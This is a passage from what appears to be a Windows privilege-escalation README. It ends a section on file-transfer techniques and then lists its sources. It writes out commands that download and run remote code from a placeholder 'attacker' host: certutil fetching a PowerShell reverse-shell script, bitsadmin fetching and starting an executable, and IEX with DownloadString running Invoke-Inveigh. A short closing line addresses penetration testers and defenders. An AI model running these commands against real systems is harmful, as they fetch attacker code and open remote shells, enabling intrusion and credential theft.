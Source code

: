 ```
certutil -urlcache -f <http://attacker/Invoke-PowerShellTcp.ps1> script.ps1

```

Then run `powershell -ExecutionPolicy Bypass -File script.ps1` to get a reverse shell.

- **Bitsadmin**:

```
bitsadmin /transfer myjob /download /priority normal <http://attacker/rusty.exe> C:\\Windows\\Temp\\rusty.exe
start C:\\Windows\\Temp\\rusty.exe

```

- **PowerShell IWR/Invoke-Expression**:

```
powershell -Command "IEX (New-Object Net.WebClient).DownloadString('<http://attacker/Invoke-Inveigh.ps1>')"

```

- **Git** (if Git is on path): `git clone <https://github.com/PowerShellMafia/PowerSploit`>.
- **WMI**: Rarely, `wmic process call create` can spawn elevated processes under some conditions.

Harnessing these tools and techniques systematically allows an attacker (or penetration tester) to traverse User → Admin/SYSTEM → Domain Admin in a Windows environment. Defenders should monitor for the usage patterns described (unusual binary executions, registry changes, DCSync traffic, etc.) to detect such attacks.

## Sources

Detailed technical references and examples are from community-sourced writeups and tools documentation and others as cited. These illustrate each technique's steps and outcomes in real scenarios.

1. Privilege Escalation on Windows (With Examples) - https://delinea.com/blog/windows-privilege-escalation
2. Windows Privilege Escalation - DLL Proxying | itm4n's blog - https://itm4n.github.io/dll-proxying/
3. Windows Local Privilege Escalation | hacktricks - https://angelica.gitbook.io/hacktricks/windows-hardening/windows-local-privilege-escalation
4. UAC Bypass – Fodhelper – Penetration Testing Lab - https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/
5. GitHub - k4sth4/UAC-bypass: Windows Privilege Escalation - https://github.com/k4sth4/UAC-bypass
6. GitHub - itm4n/PrintSpoofer: Abusing impersonation privileges through the "Printer Bug" - https://github.com/itm4n/PrintSpoofer
7. Complete Windows Privilege Escalation... | by Arunkumar R | Medium - https://0xarun.medium.com/complete-windows-privilege-escalation-9841d5ab82a6
8. Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege) | by Nikhil Anand | Medium - https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070
9. Abusing Active Directory ACLs for Privilege Escalation: A Red Team Guide | by Shebin53 | Medium - https://medium.com/@shebinjohn53/abusing-active-directory-acls-for-privilege-escalation-a-red-team-guide-90ac1692b73f
10. Roasting - Kerberoasting - Internal All The Things - https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-roasting-kerberoasting/
11. Roasting - ASREP Roasting - Internal All The Things - https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-roasting-asrep/
12. Pass The Hash Attack | Netwrix - https://www.netwrix.com/pass_the_hash_attack_explained.html
13. sharpup | WADComs - https://wadcoms.github.io/wadcoms/SharpUp/
14. GitHub - GhostPack/Seatbelt: Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives. - https://github.com/GhostPack/Seatbelt
15. [Priv-Esc](https://github.com/Abr-ahamis/Priv-Esc/edit/main/README.md)
